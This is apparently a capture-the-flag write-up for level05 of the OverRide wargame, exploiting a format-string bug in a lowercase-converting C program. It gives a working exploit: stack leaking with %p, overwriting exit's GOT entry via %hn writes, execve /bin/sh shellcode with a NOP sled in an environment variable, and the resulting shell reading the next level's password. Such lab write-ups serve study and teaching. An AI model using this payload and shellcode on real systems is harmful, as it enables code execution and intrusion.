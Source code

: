 # Level 05

<h3>source.c</h3>

```console
int main(void) {
  char str[100];       // esp+0x28
  int  index;             // esp+0x8c

  fgets(str, 100, stdin);
  index = 0;
  while (index < strlen(str)) {
    if ('@' < str[index] && str[index] < 'Z') {
      str[index] = tolower(str[index]);
    }
    index += 1;
  };
  printf(str);
  exit(0);
}
```

<h3>Analysis</h3>

The main functionally of this program is to transform all the input into lower case, and at the end it will show the output via `printf()`

This `printf()` is not protected so we could use `Format string` to exploit

As there is no `system()` available, we can use `ShellCode` to spawn a shell

Our target this time will be to use the exploit of `printf()` to overwrite the `GOT` of the `exit()` so it will be directing the program to run our `ShellCode`

<h3>Exploit</h3>

First, we need to find out which `printf()` arg we can take control of

```console
level05@OverRide:~$ ./level05
aaaa 1[%p] 2[%p] 3[%p] 4[%p] 5[%p] 6[%p] 7[%p] 8[%p] 9[%p] 10[%p] 11[%p] 12[%p]
aaaa 1[0x64] 2[0xf7fcfac0] 3[0xf7ec3af9] 4[0xffffd6af] 5[0xffffd6ae] 6[(nil)] 7[0xffffffff] 8[0xffffd734] 9[0xf7fdb000] 10[0x61616161] 11[0x255b3120] 12[0x32205d70]
```

Great, we found that the start of the `char* str` is at the 10th arg

Next we need to find the `GOT` of the `exit()`

```console
(gdb) p exit
$1 = {<text variable, no debug info>} 0x8048370 <exit@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

The `GOT` will be `0x80497e0` 

Now we need to put our shell code into the `ENV` and find the address 

```console
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`
```

```console
Breakpoint 1, 0x08048444 in main ()
(gdb) x/s *((char **)environ)
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
(gdb) x/32wx 0xffffd822
0xffffd822:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd832:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd842:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd852:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd862:	0x90909090	0x90909090	0x90909090	0x90909090
```

From there we can choose any address that contain the `\x90`, and the `NOP slide` will bring us to the beginning of our `ShellCode`, example `0xffffd832`

To conclude these will all be the important information that we need

```console
printf() arg        = 10th
exit() GOT          = 0x80497e0 -> \xe0\x97\x04\x08
shellcode address   = 0xffffd832 -> 4294957106
```
Since `4294957106` is too big for `printf()`, we can split it into `2 bytes` with the `%hn` modifier, which means write short into the pointed address

So we need to write into `0x80497e0` and `0x80497e0 + 2` or `0x80497e2`

Now we need to split 0xffffd832 into 2, with little endian way

```console
d832 = 55346 - 8(2 address written before) = 55338
ffff = 65535 - 55346 = 10189
```

Now its time to build our payload and test our exploit

(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55338d' + '%10\$hn' + '%10189d' + '%11\$hn'"; cat - ) | ./level05

```console
level05@OverRide:~$ (python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55338d' + '%10\$hn' + '%10189d' + '%11\$hn'"; cat - ) | ./level05
                                             -134415680
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```